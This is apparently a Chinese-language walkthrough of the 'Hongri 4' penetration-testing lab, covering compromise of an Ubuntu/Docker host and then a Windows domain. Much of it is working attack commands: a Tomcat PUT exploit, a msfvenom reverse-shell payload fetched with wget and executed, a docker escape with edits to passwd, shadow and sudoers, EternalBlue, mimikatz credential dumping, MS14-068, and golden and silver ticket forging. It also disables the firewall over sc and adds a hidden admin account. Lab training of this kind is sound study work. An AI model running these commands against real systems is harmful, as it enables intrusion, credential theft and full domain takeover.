




# 红日靶场四

## 外网

```
ubuntu密码：ubuntu：ubuntu 内网：192.168.183.128 外网：192.168.1.131
dc密码：administrator：admin@123 192.168.183.130
win7密码：douser:Dotest123 192.168.183.129
kali攻击机：192.168.1.128
```

进行前期配置完毕之后

我们首先把Ubuntu的docker打开

命令提示：

```
docker ps -a 查看容器信息
docker start 【容器id】 开启容器
查询占用的docker映射占用的端口号 docker container ls -a|grep 端口号
```


成功打开，其中有一些未能打开的容器报错可以先不管

### 信息搜集

首先进行端口扫描，发现22 2001 2002 2003开启


尝试进行访问

发现2001对应着一个文件上传页面 


2002对应着tomcat默认页面


 2003是phpmyadmin


### 漏洞利用

#### struts2漏洞

在浏览器中进行访问主机的2001端口，此时可以看到浏览的结果，上传文件后发现没有任何反应，此时发现上传之后url的后缀名发现是以.action结尾的，action可能是Java语言编写的，判断可能存在struts2的漏洞

然后查看源代码也发现如下，可能是strusts2的框架


所以猜测存在struts2的漏洞

使用strusts2扫描工具发现


含有s2-045，s2-046两个漏洞


验证发现可以听过漏洞进行命令执行


访问发现是404报错，放弃看下一个

#### tomcat

2002端口是一个apache tomcat 8.5.19


在kali上搜索是否含有版本漏洞


把漏洞检测的poc复制出来

```
POC的含义 POC通常是一个简单的代码示例或一个脚本，用于验证某个系统或应用程序中存在的漏洞、弱点或安全问题
```

使用poc检测是否存在漏洞，这里发现是存在CVE-2017-12617这个漏洞的，这里的poc原理应该是上传了一个Poc.jsp来判断是否存在漏洞(该版本的tomcat进行漏洞查找，发现该版本存在CVE-2017-12617漏洞，这个漏洞CVE- 2017-12615是 Tomcat远程代码执行漏洞(PUT请求)，可以使用PUT方法上传任意文件)


我们访问一下Poc.jsp，是存在的


那么存在漏洞，直接使用`-p`参数进行攻击，这里拿到了一个反弹回来的shell，这里因为是交互型shell，不太方便下一步的操作，这里尝试着上线msf

```
python 42966.py -u http://192.168.1.131:2002/ -p pwn
```


这里拿到了命令执行的权限，所以考虑用msf生成马子，然后用权限运行，方便连接

因为是linux，所以需要生成linux的木马，在kali本地起一个http服务方便靶机下载

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > shell.elf

python -m SimpleHTTPServer	#py2环境，开启http服务，使靶机能够下载马子
```


因为这里是python3，所以用python -m http.server 8000

下载shell.elf并赋权执行

```
wget http://192.168.1.10:8000/shell.elf

chmod 777 shell.elf

./shell.elf
```


使用msf接收会话，上线成功

```
use exploit/multi/handler选择插件
set payload linux/x86/meterpreter/reverse_tcp 选择payload
set lhost 192.168.1.10 
set lport 4444
run
```



成功上线

#### phpmyadmin


## 内网渗透

### docker逃逸


看到这个后缀文件判断在docker容器里面

所以尝试docker逃逸

进行查看光盘时，可以看到能够挂载的光盘


创建一个文件，把光盘sda1(当前docker镜像主空间）挂载到该文件下


再查看可以看到很多文件

### 提权

尝试进行修改这些文件发现，能够进行修改文件，然后在相同版本的ubuntu中进行创建用户密码，复制到此文件中

查看挂载后目录下的etc目录


查看/9/etc/passwd


 尝试进行修改这些文件发现，能够进行修改文件

然后在另一台虚拟机相同版本的ubuntu中进行创建用户密码，将文件中成功创建的一行，复制到此文件中

```
账户信息（etc/passwd
lidy:x:1001:1001:lidy,123,123,123,123:/home/lidy:/bin/bash >> /9/etc/passwd
账户权限（etc/shadow
lidy:\$6\$Iw/VWaL.\$5Q5Iqv.RbKvpqBp/x1MtBkk.AWNi7NXmXXPeg4g0yB2TGatTshwq2.KjcPNhmqx57uCTerwbo6b0s5fr2qOIa0:19808:0:99999:7::: >> /9/etc/shadow（因为echo出来有问题所以这里在每个$前面加了一个\反斜杠转义
密码这里设置的123
```

使用echo将用户信息加入文件中

再分别查看是否添加成功


成功添加

然后通过ssh连接，登录成功



连上之后尝试提权


可以看见lidy用户不在sudoers目录文件中，所以不能直接提权 

编辑/9/etc/sudoers文件 将lidy加入（这里lidy用户没有权限，所以在docker里加）


提权：


提权成功

### 内网信息搜集

查看网卡，发现还有一个网卡地址，扫一下


用finalshell ssh连接，然后再lidy目录下上传扫描工具


扫描发现三台机子


发现都含有永恒之蓝漏洞，而且win2008是dc

尝试永恒之蓝上线

### 代理

上传服务端至kali，frps


修改配置文件

这里的监听段口是监听kali的7000端口

再通过ssh上传客户端至ubuntu，给予权限

修改配置文件（这里的开的是kali的11451


```
frpc -c （指定文件）frpc.ini
```


反过来看Ubuntu已经连上了


Ubuntu的48840连上我们的7000


更改proxychains配置文件


msf通过11451端口上号

根据fscan扫描结果，msf搜索msf17-010永恒之蓝漏洞


这里我们可以选择use 0


设置好版本信息以及攻击机ip，开始打


这里看到永恒之蓝直接打成功了返回了一个SYSTEM权限的meterpreter，这里先进行一个进程迁移，从x86迁移到x64的进程里面


本身的进程里面shell不了，这里迁移试试，权限是否足够，是否能够进行迁移

然后开启一个windows环境下的cmd进行信息搜集

```
chcp 65001（调编码）
net user
net view /domain
```

可以看到这里是在DEMO这个域环境里面


ping一下130，能够ping通


### 获取密码

这里获取密码有两种方法，先使用常规方法mimikatz抓取

使用copy命令上传一个mimikatz，这里`tasklist /svc`查看进程是没有杀软的那么直接上mimikatz了

这里出现了一个问题提示我的权限不够不能够获取调试权限


那么这里exit回到meterpreter里面使用令牌窃取SYSTEM权限之后进行mimikatz密码进行抓取

命令提示：

```
use incognito
inpersonate_token "NT AUTHORITY\SYSTEM"

mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```


这里得到域成员`douser/Dotest123`


这里还有一个获取密码的方式就是获取ubuntu执行命令的历史记录，我们知道ubuntu有两个网段，跟129这台主机是在一个域内的，那么可以看一下是否有连接过129这台主机的命令曾经执行过，这里就类似于windows里面的udp凭证被保存了下来


### 横向移动拿到域控

这里拿到了域成员的帐号和密码，这里我们直接使用一个ptt伪造票据来拿到域控权限，利用mimikatz注入票据

#### 票据传递攻击：

票据传递攻击（PtT）是基于Kerberos认证的一种攻击方式，常用来做后渗透权限维持。黄金票据攻击利用的前提是得到了域内krbtgt用户的NTLM 哈希或AES-256的值，白银票据攻击利用的前提是得到了域内服务账号的NTLM 哈希或AES-256的值。票据传递攻击常用来做域控权限维持

```
拿到ntlm hash 就可以伪造tgt和logon session key
PTT票据传递主要根据kerberos协议&kerberos认证原理来进行攻击：
kerberos原理：打个比方：就好比A需要进入公司办公处，首先需要去门卫处验证是否是这个公司的人(也就是通过AS的认证)；然后通过门卫确认后，拿着门卫的凭证(也就是我们所需要TGT)去办公处里面，这时候我们如果需要去领导办公室查询资料(就是访问Sever)，那么就需要通过办公处的前台去登记，让前台确认我们是否有去查询的资格，当确认我们有资格后会给予凭证(就是ST)，我们就可以拿着这个凭证去领导办公室查询资料了。
借用我们上面的比方：来带入我们kerberos中：


首先 Client 向域控制器 DC 请求访问 Server，DC 通过去 AD 活动目录中查找依次区分 Client 来判断 Client 是否可信；认证通过后返回 TGT 给 Client，Client 得到 TGT（Ticket GrantingTicket）；Client 继续拿着 TGT 请求 DC 访问 Server，TGS 通过 Client 消息中的 TGT，判断 Client 是否有访问权限；如果有，则给 Client 有访问 Server 的权限 Ticket，也叫 S（ServiceTicket）；Client 得到 Ticket 后，再去访问 Server，且该 Ticket 只针对这一个 Server有效；最终 Server 和 Client 建立通信。

黄金票据：就是我们攻击者伪装成这个公司的员工，自己伪造了一个门卫的凭证(TGT)，因此就不需要和门卫(AS)去登记，进入办公区(KDC)后，窃取了一个万能凭证(就是krbtgt账号)，拥有这个凭证就可以自有出入领导办公室查询资料。
白银票据：就是我们的攻击者拿到了这个公司领导办公室侧门的钥匙(也就是可以利用部分的服务，比如cifs)，他都不需要进入办公区(KDC)去找前台登记给予凭证(ST),拥有了钥匙直接去打开领导办公室的侧门进入查询资料。
```

```
金票和银票之前的区别：

获取的权限不同
金票：伪造的 TGT，可以获取任意 Kerberos 的访问权限
银票：伪造的 ST，只能访问指定的服务，如 CIFS
认证流程不同
金票：同 KDC 交互，但不同 AS 交互
银票：不同 KDC 交互，直接访问 Server
加密方式不同
金票：由 krbtgt NTLM Hash 加密
银票：由服务账号 NTLM Hash 加密
```

##### **黄金票据**

伪造krbtgt用户的TGT票据

1、原理：

```
在 Kerberos 认证中,Client 通过 AS(身份认证服务)认证后,AS 会给Client 一个Logon Session Key 和 TGT,而 Logon Session Key 并不会保存在KDC 中，krbtgt 的NTLM Hash 又是固定的,所以只要得到 krbtgt 的 NTLM Hash，就可以伪造TGT和Logon Session Key 来进入下一步 Client 与 TGS 的交互。而已有了金票后,就跳过AS 验证,不用验证账户和密码,所以也不担心域管密码
```

2、特点：

不需要与 AS 进行交互，需要用户 **krbtgt** 的 Hash

伪造金票所需条件

1. 域名称
2. 域的 [SID](https://so.csdn.net/so/search?q=SID&spm=1001.2101.3001.7020) 值
3. 域的 KRBTGT 账号的 HASH
4. 伪造任意用户名（一般填写域管账户）

生成金票

登录域管账户

使用一下命令导出用户 krbtgt 的 hash：（命令提示）

```
mimikatz(commandline) # privilege::debug
mimikatz(commandline) # lsadump::dcsync /domain:moonsec.fbi /all /csv
或 
lsadump::lsa /inject
mimikatz(commandline) # lsadump::dcsync /domain:moonsec.fbi /user:krbtgt
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:moonsec.fbi/all /csv" "exit">loghash.txt
lsadump::dcsync /domain:moonsec.fbi /user:krbtgt
```

sid和hash是krbtgt的


3、以下环境是在域成员A的 administrator 用户下进行，因为mimikatz需要管理员权限！

**利用 mimikatz 生成金票生成.kirbi 文件并保存：**

```
mimikatz.exe "kerberos::golden  /admin:system  /domain:moonsec.fbi  /sid:S-1-5-21-2801122135-3886333168-273474972  /krbtgt:811a536cf58aa23ceb8d439ffb386e6f  /ticket:ticket.kirbi" exit
```

    /admin：伪造的用户名
    
    /domain：域名称
    
    /sid：SID 值，（注意是去掉最后一个-后面的值）
    
    /krbtgt：krbtgt 的 HASH 值
    
    /ticket：生成的票据名称 //不是写入内存中的命令！
执行结果：


金票的使用

(普通域账户，利用黄金票据，创建域管账户) 登录域内普通用户，**通过 mimikatz 中的 kerberos::ptt 功能将ticket.kirbi 导入内存中。**

导入票据之前访问[域控](https://so.csdn.net/so/search?q=域控&spm=1001.2101.3001.7020)失败

```
mimikatz # kerberos::purge 清空票据缓存
mimikatz # kerberos::ptt C:\Users\test.MOONSEC\Desktop\mimikatz_trunk\x64\ticket.kirbi 将票据导入内存中
```


注入内存中可以再来访问 dc 可以成功


利用psexec获取shell

```
PsExec.exe /accepteula /s \\08server-dc.moonsec.fbi cmd
```


##### **案例：**

MS14-068

这个漏洞的原理就和黄金票据相似，所以我们先来复现这个漏洞：
原理：

通过生成黄金票据，导入工具中，将一个普通权限的域用户获取域管的使用权限，从而达到控制整个域。
当获取域用户时，对这个域进行信息收集：
获取是否MS14-068相应补丁情况：

```
systeminfo | findstr "3011780"
```

**返回为空则没有相应的补丁**


**ms14-068exp使用方法：**

```
ms14-068.exe -u 域成员名@域名 -p 域成员密码 -s 域成员 sid -d 域控制器地址
```

**收集域成员的SID：**

```bash
whoami /all 
whoami /user #只单独查询SID
```


**收集域管账号及域名称：**

```bash
net time #获取域管账号
net config workstation #获取域信息
nltest /dsgetdc:moonsec #获取域管信息
```


构造成**08server-dc.moonsec.fbi**（域控制器地址，域名.工作站域dns）,在制作黄金票据中使用

 **利用ms14-068的exp来生成一个黄金票据：**

```
ms14-068.exe -u test@moonsec.fbi -p 123456 -s S-1-5-21-2801122135-3886333168-273474972-1103 -d 08server-dc.moonsec.fbi
```


这里我们可以先看下票据未导入前，是无法查看域控的C盘：

```bash
dir \\08server-dc.moonsec.fbi\C$  #这里必须使用计算机全名去查看，IP地址是不行的。
1
```


**使用mimitakz导入票据：**

```
kerberos::purge  #清空票据
kerberos::ptc 票据 #导入票据
kerberos::list #查看票据
```


再次查看域控的C盘，现在是可以访问的：

```bash
dir \\08server-dc.moonsec.fbi\C$
```


**使用psexec反弹cmd：**

```bash
Psexec64.exe /accepteula（接受协议） /s（在系统帐户中运行远程进程） \\08server-dc.moonsec.fbi cmd.exe

获取对应系统的System权限的shell。-accepteula是指第一次运行psexec会弹出确认框，使用该参数就不会弹出确认框。-s是指以System权限运行远程进程，获得一个System权限的交互式Shell。如果不使用该参数，会获得一个Administrator权限的shell。
```


**将cmd反弹出来，即可创建域管账号：**

```bash
net user Longwaer QWEasd123 /add /domain
net group "Domain Admins" Longwaer /add /domain
```


**金票制作：**

这里我们已经假设获得了域管权限，然后我们利用mimikatz导出krbtgt账号信息：

```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:moonsec.fbi /user:krbtgt" "exit">loghash.txt
```


 **利用mimikatz生成黄金票据：**

```
mimikatz.exe "kerberos::golden /admin:system /domain:moonsec.fbi /sid:S-1-5-21-2801122135-3886333168-273474972 /krbtgt:811a536cf58aa23ceb8d439ffb386e6f /ticket:ticket.kirbi" exit
```


**将票据注入内存：**

```bash
kerberos::purge #清除票据
kerberos:: ptt 票据 #将票据注入内存
```


##### 白银票据：

```
白银票据Silver Ticket不同域黄金票据Golden Ticket。白银票据的利用过程是伪造TGS，通过已知的授权服务密码生成一张可以访问该服务的TGT。因为在票据生成过程中不需要使用KDC，所以可以绕过域控，很少留下日志。黄金票据使用krbtgt账号的密码散列值，利用伪造高权限的TGT向KDC要求颁发拥有任意服务访问权限的票据，从而获取域控权限。而白银票据会通过相应的服务账号来伪造TGS，例如：LDAP、MSSQL、WinRM、DNS、CIFS等，范围有限，只能获取对应服务的权限。
```

要创建白银票据，我们需要知道以下信息：

- 要伪造的域用户(这里我们一般填写域管理员账户)
- 域名
- 域的SID值(就是域成员SID值去掉最后的)
- 目标服务的FQDN
- 可利用的服务
- 服务账号的NTLM哈希

特点

1.不需要与 KDC 进行交互

2.需要 server 的 NTLM hash

登录域管用户，用管理员权限打开 CMD，cd 到mimikatz 存放的目录，去执行 mimikatz 的命令，得到 SID 和 NTLM

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt
```




先使用 mimikatz 清空票据，再导入伪造的票据,具体伪造票据的命令:

```
kerberos::purge 
```

```
kerberos::golden /domain:moonsec.fbi /sid:S-1-5-21-2801122135-3886333168-273474972 /target:08server-dc.moonsec.fbi /service:cifs /rc4:42e2656ec24331269f82160ff5962387 /user:administrator /ptt
```


使用方法：

kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名>/service:<服务类型> /rc4: /user:<用户名> /ptt

其中的用户名可以随便写 服务类型可以从以下内容中来进行选择，因为我们没有 TGT 去不断申请ticket，所以只能针对某一些服务来进行伪造


kekeo 制作环境银票

```
tgt::ask /user:administrator /domain:moonsec.fbi /ntlm:42e2656ec24331269f82160ff5962387 

// tgt::ask /user:用户名 /domain:域名 /ntlm:NTLM Hash 

kerberos::ptt TGT_administrator@MOONSEC.FBI_krbtgt~moonsec.fbi@MOONSEC.FBI.kirbi

```


黄金票据和白银票据的不同

访问权限不同：

    黄金票据Golden Ticket：伪造TGT，可以获取任何Kerberos服务权限
    
    白银票据Silver Ticket：伪造TGS，只能访问指定的服务

加密方式不同：

    Golden Ticket由krbtgt的Hash加密
    
    Silver Ticket 由服务账号（通常为计算机账户）Hash加密
    
    认证流程不同：
    
    Golden Ticket的利用过程需要访问域控，
    
    而Silver Ticket不需要

隐蔽性不同：

    白银票据依赖于服务账号的密码散列值，而黄金票据需要利用krbtgt账号的密码散列值，因此白银票据更隐蔽
##### **案例：**

白银票据原理：

如果说黄金票据是伪造的 TGT,那么白银票据就是伪造的 ST。在 Kerberos 认证的第三部，Client 带着 ST 和 Authenticator3 向 Server 上的某个服务进行请求，Server 接收到 Client 的请求之后,通过自己的 Master Key 解密 ST,从而获得 Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问 server 上的指定服务了。所以我们只需要知道 Server 用户的 Hash 就可以伪造出一个 ST,且不会经过 KDC,但是伪造的门票只对部分服务起作用。
特点：

不需要与KDC进行交互；需要server的NTLM hash。
银票制作：

假设我们已经获得域管权限，使用mimikatz导出信息：

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt
```


然后利用server的NTLM hash制作银票：
 使用方法：

```
kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt

kerberos::purge
kerberos::golden /domain:moonsec.fbi /sid:S-1-5-21-2801122135-3886333168-273474972 /target:08server-dc.moonsec.fbi /service:cifs /rc4:d0584c0b6d8ef7693ecaca2469348555 /user:administrator /ptt
```

这里rc4：使用的是08server-dc的ntlm hash


**使用kekeo，制作银票：**

```bash
tgt::ask /user:administrator /domain:moonsec.fbi /ntlm:42e2656ec24331269f82160ff5962387
kerberos::ptt 票据 
```


### 接横向移动：

```
ms14-068.exe -u douser@DEMO.com -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130（域控ip） -p Dotest123

mimikatz # kerberos::list          //查看当前机器凭证
mimikatz # kerberos::ptc TGT_douser@DEMO.com.ccache   //将票据注入
```


这里使用`klist`查看下票据已经注入进去了


这里直接使用ipc连接域控，注意这里需要用主机名而不能用ip


这里生成一个正向连接的msf马



使用copy命令复制到DC上后使用sc创建计划任务


使用copy命令复制到DC上后使用sc创建计划任务

```
schtasks /create /tn "test" /tr C:\Users\Desktop\bind.exe /sc MINUTE /S 192.168.183.130
```


使用sc关闭防火墙

```
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off"

sc \\WIN-ENS2VR5TR3N start unablefirewall
```


创建服务执行msf马并用msf接受会话

```
sc \\WIN-ENS2VR5TR3N create bindshell binpath= "c:\bind.exe"
sc \\WIN-ENS2VR5TR3N start bindshell
use exploit/multi/handler
set payload/meterpreter/bind_tcp
set lhost 192.168.1.10
set lport 4444
run
```


成功接收到DC会话使用`getsystem`提权到system


上传mimikatz抓取DC密码，得到`DEMO qwe123!@#`


打开DC的远程桌面

```
run post/windows/manage/enable_rdp
```


使用socks代理进入内网打开远程桌面

```
proxychains4 rdesktop 192.168.183.130
```


### 权限维持

这里拿到域管用户之后可以使用金票进行权限维持，这里就简单的添加一个隐藏用户进行权限维持

```
net user admin$ qaz123!@# /add		
#添加用户admin$net localgroup administrators admin$ /add	
#将admin$用户添加到管理员组administrators
```

这里再使用`net user`是看不到这个隐藏用户的


